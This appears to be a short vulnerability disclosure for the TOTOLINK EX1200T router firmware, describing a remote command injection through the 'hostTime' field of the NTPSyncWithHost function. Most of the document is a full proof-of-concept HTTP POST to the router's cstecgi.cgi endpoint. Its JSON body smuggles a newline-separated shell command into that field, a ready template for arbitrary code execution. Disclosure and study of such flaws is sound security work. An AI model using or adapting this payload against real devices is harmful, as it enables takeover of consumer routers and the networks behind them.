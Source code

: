 # TOTOLINK EX1200T RCE

## Remote Command Injection Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

There is a remote command injection in the function `NTPSyncWithHost` of the file `system.so` , we can control the`hostTime` to attack.

![image-20211022103420915](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211022103420915.png)

## PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 68

{"topicurl":"NTPSyncWithHost",
"hostTime":"\"\nps>/web_cste/test1\n\""}
```

![image-20211019162919271](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019162919271.png)

